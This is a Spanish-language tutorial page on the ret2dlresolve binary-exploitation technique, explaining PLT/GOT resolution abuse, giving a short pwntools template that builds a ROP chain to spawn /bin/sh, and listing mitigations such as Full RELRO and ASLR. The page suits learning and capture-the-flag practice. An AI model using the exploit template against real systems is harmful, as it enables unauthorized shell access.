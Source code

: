 ```yaml
---
icon: broom
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ret2dlresolve

**ret2dlresolve** es una técnica de explotación utilizada en la explotación de binarios ELF de 64 bits. Permite a un atacante manipular el proceso de resolución de funciones dinámicas para ejecutar código arbitrario, como invocar la función `system()` con un argumento como `/bin/sh`, logrando así la ejecución de comandos en el sistema vulnerable.

### ¿Cómo Funciona ret2dlresolve?

Durante el proceso de ejecución de un binario, las funciones de la biblioteca compartida (como `libc`) son resueltas dinámicamente. El cargador dinámico utiliza tablas como la **Procedure Linkage Table (PLT)** y la **Global Offset Table (GOT)** para gestionar las direcciones de estas funciones. La técnica ret2dlresolve explota este proceso al manipular estas tablas para redirigir la ejecución del programa a funciones específicas de la biblioteca, como `system()`.

#### Pasos Generales del Ataque

1. **Sobrescribir Entradas de la GOT**: El atacante escribe direcciones controladas en la GOT para que, cuando se llame a una función específica, se redirija a una rutina de su elección.
2. **Preparar Estructuras Falsas**: Se crean estructuras falsas que imitan las utilizadas por el cargador dinámico para la resolución de funciones. Estas estructuras se colocan en una ubicación conocida y accesible.
3. **Invocar la Resolución de Funciones**: Se provoca una llamada a la función `_dl_runtime_resolve()`, que es responsable de resolver las direcciones de las funciones dinámicas. Al pasarle las estructuras falsas, el atacante puede hacer que resuelva la dirección de `system()` y la ejecute con un argumento como `/bin/sh`.

### Implementación de ret2dlresolve

La implementación de ret2dlresolve puede variar según el entorno y las protecciones del binario. Una herramienta útil en este proceso es **pwntools**, una biblioteca de Python que facilita la creación de exploits. Esta biblioteca proporciona funcionalidades para construir cadenas ROP (Return-Oriented Programming) y manipular estructuras ELF.

**Ejemplo Básico con pwntools**:

```python
pythonCopiarEditarfrom pwn import *

# Cargar el binario
elf = context.binary = ELF('./vulnerable_binary', checksec=False)

# Iniciar el proceso
p = elf.process()

# Crear el objeto ROP
rop = ROP(elf)

# Crear el objeto ret2dlresolve
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

# Construir la carga útil
rop.raw('A' * offset)  # Rellenar hasta la dirección de retorno
rop.read(0, dlresolve.data_addr)  # Leer las estructuras falsas
rop.ret2dlresolve(dlresolve)  # Llamar a _dl_runtime_resolve con las estructuras

# Enviar la carga útil
p.sendline(rop.chain())
p.sendline(dlresolve.payload)

# Interactuar con la shell
p.interactive()
```

En este ejemplo, se utiliza pwntools para construir la cadena ROP que explota el desbordamiento de búfer y redirige la ejecución a `system('/bin/sh')`. La clase `Ret2dlresolvePayload` se encarga de crear las estructuras necesarias para la resolución de funciones.

[book.hacktricks.wiki](https://book.hacktricks.wiki/es/binary-exploitation/rop-return-oriented-programing/ret2dlresolve.html?utm_source=chatgpt.com)

### Consideraciones de Seguridad

La técnica ret2dlresolve puede ser mitigada mediante la implementación de diversas medidas de seguridad, como:

* **Full RELRO**: Esta protección impide la escritura en la GOT, dificultando la manipulación de las direcciones de las funciones.
* **ASLR (Address Space Layout Randomization)**: Aleatoriza las direcciones de las funciones y las estructuras de datos, dificultando la predicción de las direcciones objetivo.
* **Stack Canaries**: Detectan y previenen desbordamientos de búfer que intentan sobrescribir direcciones de retorno.
* **NX (No eXecute)**: Previene la ejecución de código en regiones de memoria no ejecutables, dificultando la ejecución de shellcodes.

Es importante destacar que, aunque estas medidas aumentan la seguridad, ninguna es completamente efectiva por sí sola. Una combinación adecuada de ellas es esencial para proteger los sistemas contra técnicas como ret2dlresolve.
